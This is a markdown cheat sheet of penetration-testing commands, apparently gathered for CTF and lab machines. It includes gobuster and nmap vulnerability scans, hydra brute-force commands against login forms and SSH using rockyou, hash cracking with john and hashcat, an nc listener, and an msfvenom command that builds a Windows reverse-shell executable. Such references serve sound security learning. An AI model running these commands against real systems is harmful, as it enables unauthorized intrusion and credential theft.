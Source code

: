 # CLI Toolset

## gobuster
Site discovery
```console
gobuster -u http://fakebank.com -w wordlist.txt dir
```
```console
gobuster -u http://$IP -w wordlist.txt -x php,sh,txt,cgi,html,js,css,py
```

## nmap
```console
nmap -sC -sV -oN nmap/initial $IP
```
Silence discovery:
```console
nmap -sS MACHINE_IP
```
Ping Scan: Allows scanning the live hosts in the network without going deeper and checking for ports services etc. Usage:
```console
nmap -sn MACHINE_IP
```
Operating System Scan: Allows scanning of the type of OS running on a live host. Usage: 
```console
nmap -O MACHINE_IP
```
Detecting Services: Get a list of running services on a live host. Usage: 
```console
nmap -sV MACHINE_IP
```
Check for vulns also:
```console
nmap -sV -sC --script vuln MACHINE_IP
nmap -sV -vv --script vuln  MACHINE_IP
```

## nikto
Webserver vuln. disc.
```console
nikto -host $IP:80
```

## hydra
Bruteforce

```console
hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

```console
hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP -V
```

```console
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt -f -v 10.10.66.58 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -s 80
```

## crunch
Password list generator

## cewl

```console
cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers
```

## nc

```console
nc -lnvp 4444
```

## msfvenom

A command-line payload generation tool

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```

## john

Brute force hash pwd

```console
john --wordlist=greedykeys.txt hash.txt
```

## searchsploit

Search ExploitDB

```console
searchsploit fuel cms
```

## hashcat

MD5 hash cracker

```console
hashcat -m 0 pash /usr/share/wordlists/rockyou.txt
```

## enum4linux
eg. SMB user name enumeration
-a all
```console
enum4linux -e $IP
```

## stegcracker
Steganograpy cracer

 ```console
stegcracker <file> [<wordlist>]
```
